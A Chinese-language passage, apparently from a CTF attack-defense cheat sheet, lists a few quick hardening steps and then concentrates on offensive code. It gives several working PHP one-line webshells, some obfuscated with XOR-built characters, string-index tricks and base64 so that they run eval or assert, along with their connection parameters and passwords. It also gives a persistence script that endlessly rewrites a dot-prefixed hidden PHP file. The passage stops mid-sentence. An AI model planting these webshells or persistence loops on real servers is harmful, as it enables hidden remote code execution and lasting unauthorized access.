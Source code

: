 1.将所有的登陆口密码进行修改（炒鸡复杂）；

2.将上传页面的action地址修改为*，（机智小能手！！）；

3.反序列化和命令执行，就去seebug或其他的站点找补丁；

4.待补充…

## 一句话
控制用的一句话木马，最好是需要菜刀配置的，这样做是为了不让别人轻易的利用你的一句话，要不然就只能等着别人用你的脚本捡分。

简单举例：

`<?php ($_=@$_GET[2]).@$_($_POST[1])?>`

连接方式：php?2=assert密码是1。

献上我常用得一句话

`<?php`  
`$a=chr(96^5);`  
`$b=chr(57^79);`  
`$c=chr(15^110);`  
`$d=chr(58^86);`  
`$e='($_REQUEST[C])';`  
`@assert($a.$b.$c.$d.$e);`  
`?>`

配置为`?b=))99(rhC(tseuqeR+lave`

`<?php`  
`    $sF="PCT4BA6ODSE_";$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n985de9'];if(isset($s22)){eval($s21($s22));}`  
`?>`

配置填`n985de9=QGV2YWwoJF9QT1NUWzBdKTs=`

连接密码:0（零）

## 权限维持
`<?php`  
`    set_time_limit(0);`  
`    ignore_user_abort(true);`  
`	$file = '.demo.php';`  
`	$shell = "<?php phpinfo();?>";`  
`    while(true){`  
`        file_put_contents($file, $shell);`  
`        system('chmod 777 .demo.php');`  
`        usleep(50);`  
`        }`  
`?>`

tips:`.demo.php`前面使用一个点，能很好的隐藏文件。

想要结束这个进程，除了最暴力的重启服务之外，更为优雅的如下:
